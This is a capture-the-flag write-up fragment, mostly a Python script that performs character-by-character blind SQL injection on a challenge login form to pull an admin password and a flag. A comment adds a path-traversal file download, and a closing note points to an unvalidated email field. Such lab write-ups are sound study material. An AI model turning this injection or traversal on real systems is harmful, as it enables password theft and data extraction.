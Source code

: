 ![image](http://note.youdao.com/yws/res/1777/580EBB632AD348DAA619C1B929E19BBA)

```
import requests
url = "http://124.126.19.106:50461/zhuanxvlogin"

def first():
    admin_password = ""
    for i in range(1,9):
        for n in range(30,140):
            guess = chr(n)
            if guess == "_" or guess == "%":
                continue
            username = "aaa'\nor\n(select\nsubstring(password,"+str(i)+",1)\nfrom\nUser\nwhere\nname\nlike\n'homamamama')\nlike\n'"+guess+"'\nor\n''like'"
            data = {"user.name": username, "user.password": "a"}
            req = requests.post(url, data=data, timeout=1000).text
            if len(req)>5000:
                admin_password = admin_password + guess
                print "admin password: "+ admin_password
                break
    return admin_password
def second(admin_password):
    flag = ""
    for i in range(1,50):
        for n in range(30,140):
            guess = chr(n)
            if guess == "_" or guess == "%":
                continue
            username = "aa'\nor\n(select\nsubstring(welcometoourctf,"+str(i)+",1)\nfrom\nFlag)\nlike\n'"+guess+"'\nand\n''like'"
            # 下载flag.class类，?fileName=../../WEB-INF/classes/com/cuitctf/po/Flag.class，反编译后可以发现列名为welcometoourctf
            data = {"user.name": username, "user.password": admin_password}
            req = requests.post(url, data=data, timeout=1000).text
            if len(req)>5000:
                flag = flag + guess
                print "flag:" + flag
                break
admin_password = first() 
# admin_password = '6YHN7UJM'   
second(admin_password)

```

## 

1.下载附件，发现邮箱没有做校验，最后执行的sql就是`select id from user where email = 'your input email'`
![image](http://note.youdao.com/yws/res/1781/1D2960C4C98D4AC3B244455A8FC07929)
![image](http://note.youdao.com/yws/res/1779/7C31387C8D7C434885CF8C7734C4C1B0)
